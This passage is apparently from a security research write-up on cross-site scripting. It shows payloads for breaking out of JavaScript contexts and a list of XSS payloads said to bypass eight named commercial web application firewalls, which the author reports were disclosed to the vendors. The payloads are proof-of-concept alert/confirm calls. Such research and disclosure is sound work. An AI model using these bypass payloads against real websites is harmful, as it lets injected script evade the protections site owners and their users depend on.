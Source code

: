 It is one of the simplest code blocks you will encounter in the wild. To ease the process of breaking out of code blocks, use of a syntax highlighter such as **Sublime Text** is advised.

The payload's structure depends upon the code itself and this uncertainty makes it very difficult to detect. However, the code can be obfuscated if required.
For instance, the payload for the code block above can be written as:

`');%0a}%0d}%09alert();/*anything here*/if(true){//anything here%0a('`

If the input is getting reflected into JavaScript code whether it is in a code block or a variable string, `</scRipT{?filler}>{html context payload}` can be used to break out of the context and execute the payload. This payload scheme should be tried before everything else as it is straightforward, but it is likely to be detected as well.

##### Bypassing WAFs in Wild

During the research, a total of eight WAFs were bypassed. The vendors were made aware of the bypasses via responsible disclosure and hence some (or all) bypasses may have been patched as a result.
Below is the list of bypassed WAFs, payloads and the bypass technique:

**Name:** Cloudflare\
**Payload:** `<a"/onclick=(confirm)()>click`\
**Bypass Technique:** Non-white space filler

**Name:** Wordfence\
**Payload:** `<a/href=javascript&colon;alert()>click`\
**Bypass Technique:** Numeric character encoding

**Name:** Barracuda\
**Payload:** `<a/href=&#74;ava%0a%0d%09script&colon;alert()>click`\
**Bypass Technique:** Numeric character encoding

**Name:** Akamai\
**Payload:** `<d3v/onauxclick=[2].some(confirm)>click`\
**Bypass Technique:** Missing event handler from blacklist and function call obfuscation

**Name:** Comodo\
**Payload:** ```<d3v/onauxclick=(((confirm)))``>click```\
**Bypass Technique:** Missing event handler from blacklist and function call obfuscation

**Name:** F5\
**Payload:** `<d3v/onmouseleave=[2].some(confirm)>click`\
**Bypass Technique:** Missing event handler from blacklist and function call obfuscation

**Name:** ModSecurity\
**Payload:** `<details/open/ontoggle=alert()>`\
**Bypass Technique:** Missing tag (event handler too?) from blacklist

**Name:** dotdefender\
**Payload:** `<details/open/ontoggle=(confirm)()//`\
**Bypass Technique:** Missing tag from blacklist, function call obfuscation and alternate tag ending

##### References
- [HTML specification](https://www.w3.org/TR/html52/)
- [Numeric character reference](https://en.wikipedia.org/wiki/Numeric_character_reference)

